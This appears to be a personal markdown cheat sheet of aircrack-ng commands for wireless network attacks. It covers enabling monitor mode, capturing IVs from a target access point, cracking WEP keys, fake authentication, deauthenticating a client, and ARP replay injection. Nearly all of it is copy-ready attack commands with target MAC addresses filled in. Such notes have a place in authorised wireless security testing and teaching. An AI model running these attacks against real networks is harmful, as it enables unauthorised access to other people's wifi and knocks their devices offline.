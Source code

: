 # Notes on wifi configs and setup

## Getting started

Check the wireless interface(s) with `iwconfig` and start monitoring mode.
```
$ airmon-ng start wlx9cefd5fd1181
```

Verify that [injection tests](https://www.aircrack-ng.org/doku.php?id=injection_test) work.
```
$ aireplay-ng -9 -e dd-wrt wlan0mon
```

## airmon-ng
Checking and kill networking services.
```
$ airmon-ng check kill
```

Set interface to monitor mode.
```bash
$ airmon-ng start wlan1
```

Stop monitor mode and restart networking.
```
$ airmon-ng stop wlan1
$ systemctl restart network-manager.service
```

## airodump-ng
Find surrounding networks, access points and clients
```bash
$ airodump-ng wlan1
```

Begin collection on target channel, BSSID and recording to file.
  - `-c` Select channel number
  - `-w` Write to file
  - `--bssid` MAC address of access point
  - `--ivs` Save only captured IVs
```bash
$ airodump-ng -c 6 --bssid E0:05:C5:60:2E:65 --ivs -w capture  wlan1
```

## aircrack-ng
Begin cracking IVS file on target BSSID (can perform while airodump-ng is writing).
```bash
$ aircrack-ng capture-01.ivs --bssid E0:05:C5:60:2E:65
```

Invoke PTW WEP cracking method method on an arp replay.
```bash
$ aircrack-ng -z replay_arp-0309-015802.cap
```

## aireplay-ng
Set attack mode [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication).
  - `-1` Set `-1` count
  - `-o` Number of packets to send at a time
  - `-q` Number of seconds to send keep-alive packets
  - `-e` Filename to write
  - `-a` Target access point MAC address
```bash
$ aireplay-ng -1 180 -o 1 -q 10 -e capture -a A0:21:B7:60:2E:65 wlan1
```

Set attack mode [deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication).
  - `--deauth` Set `deauth` count
  - `-e` Target access point ESSID
  - `-a` Target access point MAC address
  - `-c` Set destination MAC address
```bash
$ aireplay-ng --deauth 5 -e access_point -a A0:21:B7:60:2E:65 -c AC:65:21:B7:2E:60 wlan1
```

Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `--arpreplay` attack mode
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
  - `-r` Extract packets from target pcap file
  - `-x` Number of packets-per-second
```bash
$ aireplay-ng --arpreplay -b A0:21:B7:60:2E:65 -h AC:65:21:B7:2E:60 wlan1 -r replay_arp-0309-015533.cap -x 100
```

## Renaming interface (temporary)
Rename target interface to `wlan1` instead of systemd generated name.
```bash
$ iwconfig | grep wlx
wlx9cefd5fd1181  IEEE 802.11  ESSID:off/any 
$ ip link set wlx9cefd5fd1181 down
$ ip link set wlx9cefd5fd1181 name wlan1
$ ip link set wlan1 up
$ systemctl restart network-manager.service
```
[Understanding systemd’s predictable network device names](https://major.io/2015/08/21/understanding-systemds-predictable-network-device-names/)

## Sources
[Aircrack-ng Newbie Guide for Linux](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
